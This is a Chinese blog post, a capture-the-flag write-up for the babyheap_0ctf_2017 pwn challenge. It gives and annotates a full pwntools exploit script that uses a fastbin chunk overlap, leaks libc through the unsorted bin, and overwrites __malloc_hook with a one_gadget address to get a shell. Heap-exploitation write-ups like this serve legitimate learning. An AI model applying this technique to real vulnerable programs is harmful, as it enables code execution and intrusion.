







<!--yml
category: 未分类
date: 2022-04-26 14:38:50
-->

# 绝对详细的babyheap_0ctf_2017题解_eeeeeeeeeeeeeeeea的博客-CSDN博客

> 来源：[https://blog.csdn.net/xieyichensss/article/details/116071092](https://blog.csdn.net/xieyichensss/article/details/116071092)

这是我第一次做堆题，其他师傅的wp都看了一个周左右，才把大概所有我不明白的地方搞懂。
直接上其他师傅的exp，然后逐步分析叭。（希望我尽快可以自己做堆）
from pwn_debug import *

pdbg = pwn_debug(‘babyheap_0ctf_2017’)
pdbg.remote(‘node3.buuoj.cn’,26076)
p = pdbg.run(‘remote’)

def allocate(size):
p.recvuntil('Command: ')
p.sendline(‘1’)
p.recvuntil('Size: ')
p.sendline(str(size))

def fill(idx,content):
p.recvuntil('Command: ')
p.sendline(‘2’)
p.recvuntil('Index: ')
p.sendline(str(idx))
p.recvuntil('Size: ')
p.sendline(str(len(content)))
p.recvuntil('Content: ')
p.send(content)

def free(idx):
p.recvuntil('Command: ')
p.sendline(‘3’)
p.recvuntil('Index: ')
p.sendline(str(idx))

def dump(idx):
p.recvuntil('Command: ')
p.sendline(‘4’)
p.recvuntil('Index: ')
p.sendline(str(idx))
p.recvline()
return p.recvline()

allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x80)
free(1)
free(2)
这一段代码：申请五个堆块，下标从0到4，用户区大小为0x10，加上chunk head的0x10，共0x20大小。再先释放下标为1，然后释放下表为2。图
此时allocate表下的，chunk1和chunk2已经是free掉了。
#gdb.attach§
这里注意以下大小，chunk0到chunk3是是0x21。因为标志位P位为1.

payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
payload += **p8(0x80)** //注意这里是p(8),因为只需要改变最低位的一个字节为80就好啦，chunk0：0-0x1f chunk1：0x20-0x3f chunk2：0x40-0x5f chunk3：0x60-0x7f chunk4：0x80-0x100
fill(0,payload)
这段代码：是修改chunk2的user date区域，但是现在chunk2已经free了，所以user data区首地址变为了fd指针所指向的区域。图

#gdb.attach§
注：只能向不在free状态的chunk写入数据
payload = p64(0) * 3
payload += p64(0x21)
fill(3,payload)
这段代码：向chunk3写入数据，填充chunk4的size块为0x21。因为fastbin有一个原则：就是通过fd指针连接的一定是相同大小的嘞。看size的图

#gdb.attach§

allocate(0x10) //将chunk2 allocate回来,放入刚才chunk1所在的位置
allocate(0x10) //将chunk2的fd指针指向的chunk4 allocate回来,放在刚才chunk2所在的位置
也就是index2和index4的位置上都是chunk4
fill(1,‘aaaa’)
fill(2,‘bbbb’)
payload = p64(0) * 3
payload += p64(0x91)
fill(3,payload)
这段代码：将chunk4的size改为0x91。（至于为什么多余一个1，这是size的标志位的P位，P=1时，前一个chunk正在使用，这是为了防止chunk进行合并）
allocate(0x80) //进行这一步是为了free之前，chunk4与top chunk不连接。。。。。。。）
free(4) //将chunk4放入unsorted bin中
这段代码：
libc_base = u64(dump(2)[:8].strip().ljust(8, “\x00”))-0x3c4b78
log.info("libc_base: "+hex(libc_base)) //因为之前释放到unsorted bin中，就是如果 usortbin 只有一个 bin ，它的 fd 和 bk 指针会指向同一个地址(unsorted bin 链表的头部），这个地址为 main_arena + 0x58
由此图和Pwngdb（就是Pwngdb）的magic命令发现发现malloc__hook和libc基地址的偏移为0x3c4b10
我们查看main_arena附近地址的数据，发现了malloc__hook
这里来说以下libc基地址的计算:dump（2）得到的是main_arena+0x58的地址，减去0x58得到main_arena地址(因为刚才查看了main_arena附近的地址，知道malloc__hook和main_arena偏移为0x10)，再减0x10得到malloc__hook地址（我们用magic得到了malloc__hook和libc的偏移），最后减去malloc__hook和libc的偏移即为libc基地址！！！！！！

allocate(0x60)
free(4)
//将chunk4 allocate回来后放入fastbin
payload = p64(libc_base+0x3c4aed)
// 我们需要在allocate回来的chunk6（index4）后伪造一个fake chunk，然后需要的大小要在0x60-0x7f之间，我们找到的位置是0x0x7fa8994e6aed，然后要算出与libcbase的偏移是0x3c4aed。
fill(2, payload)

allocate(0x60) // chunk6
allocate(0x60) //chunk6所指向的fake chunk

payload = p8(0)*3
payload += p64(0)*2 进行内存对齐，因为找到的合适的大小的位置与malloc__hook的偏移为19，所以要对齐内存哦。
payload += p64(libc_base+0x4526a) //0x4526a是one_gadget的一个地址
fill(6, payload)

#gdb.attach§

allocate(255) //进行allocate之前需要检查malloc__hook函数的内容，如果为0，就跳过此步骤，如果不为0，就跳转到此部分执行。

p.interactive()

注：我一开始看wp的时候，有的根本不懂，后来知道是因为chunk和index的区别，我们一开始构造的函数都是以index为下标的。奉上一张图。（建议最后再看，这是malloc和free的过程，中间我跳了一些）
